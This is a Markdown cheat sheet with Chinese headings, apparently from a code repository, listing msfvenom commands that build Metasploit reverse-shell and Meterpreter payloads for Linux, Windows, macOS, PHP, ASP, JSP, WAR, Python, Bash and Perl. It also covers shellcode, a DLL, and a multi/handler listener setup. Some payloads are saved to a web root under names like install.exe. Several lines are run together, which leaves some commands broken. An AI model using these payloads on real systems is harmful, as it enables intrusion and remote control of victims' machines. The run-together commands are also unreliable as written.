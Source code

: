 # msfs生成各种payload
## msfvencom -l
#### Linux
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=14704 -f elf >/var/www/html/shell.elf`
#### Windows
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=16041 -f exe >/var/www/html/pt16041.exe`
  
  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=6666 -f exe >/var/www/html/install.exe`
#### Mac
  `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.machoWeb Payloads`
#### PHP
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.phpcat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php &&pbpaste >> shell.php`

#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

#### JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

#### WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to ConnectOn> -f war > shell.warScripting Payloads`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
#### Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
#### Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
## SellCode
#### Linux Based SellCode
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Windows Based Shellcode
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Mac Based Shellcode
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Handlers
`Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.`
#### 生成dll文件
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=10975 -f dll -o /var/www/html/x64.dll`

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession falseexploit -j -z
```



